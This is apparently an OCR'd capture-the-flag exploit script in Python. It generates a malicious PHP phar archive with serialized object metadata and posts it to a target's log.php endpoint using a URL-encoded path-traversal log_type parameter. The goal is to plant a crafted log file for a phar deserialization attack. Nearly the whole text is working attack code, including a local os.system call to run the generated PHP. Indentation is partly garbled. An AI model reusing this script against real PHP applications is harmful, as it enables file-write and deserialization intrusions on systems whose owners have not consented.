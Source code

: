 ```
    # want a string like: 2021-11-21 14:48:41
    date = '2021-11-21 ' + date[-12: -4]
    
    print(date)
    return date

def getNonce():
return 'sam33_' + str(random.randint(1,100000))

def createPhar(logType):
date = getDateString()
pharFilename = 'payload.tar.phar'
phpContent = """
<?php
$filename = '""" + pharFilename + """';
unlink($filename);
$phar = new Phar($filename);
$phar->startBuffering();
$phar->addFromString('Time: """ + date + """ IP: [], REQUEST: [log_type=""" + logType + """], CONTENT: [test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class FLAG {}
$object = new FLAG;
$phar->setMetadata($object);
$phar->stopBuffering();
?>
"""
phpFilename = "dynamic_create_phar.php"
phpFile = open(phpFilename, "w")
phpFile.write(phpContent)
phpFile.close()

    cmd = "php " + phpFilename
    os.system(cmd)

    pharFile = open(pharFilename, "rb")
    pharData = pharFile.read()
    return pharData


def createLogFile(logType, postBody):

    postUrl = URL + '/log.php?log_type=' + logType
    print(postUrl)
    response = requests.post(postUrl,
                             data = postBody,
                             allow_redirects=False
                             )

    print(response.status_code)

nonce = getNonce()
logType = '..%2F..%2F' + nonce

prefixEnd = b'CONTENT: ['
pharData = createPhar(logType)
index = pharData.find(prefixEnd)
postBody = pharData[index + len(prefixEnd):]
createLogFile(logType, postBody)

logUrl = URL + '/' + nonce + '_www.log'
```